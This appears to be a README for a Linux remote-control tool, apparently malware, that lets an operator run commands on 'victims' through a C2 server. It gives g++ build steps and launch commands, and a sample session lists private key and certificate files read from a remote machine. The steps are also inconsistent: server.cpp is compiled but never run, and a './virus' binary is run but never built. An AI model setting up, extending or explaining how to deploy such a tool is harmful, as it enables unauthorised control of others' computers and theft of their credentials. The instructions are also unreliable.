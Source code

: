 Linux Server only.   

Step 1: Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp


Step 2: Copy all the codes to your Linux Server, and then run:

g++ tcsl.cpp -o tcsl 
g++ host.cpp -o host 
g++ server.cpp -o server 

Step 3: Open 3 terminals and run the command seperately:
./tcsl
And then you can run any amounts of Clients or Host with newly open up terminal
the Host is config as the last connected, after the server has been opened, you can lauch the host or client first either way
./virus
./host

Step 4: Enjoy your commands in the host terminal, it would reply the result send by you, for example:

┌──(root㉿kali)-[/home/kali/Desktop]

└─# ./host              
Connected to the server.

┌──(root♪hr0g) - [~]

└─# ls 1
ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~]

└─# 

use 'chatmode' to communicate with victims(under development)
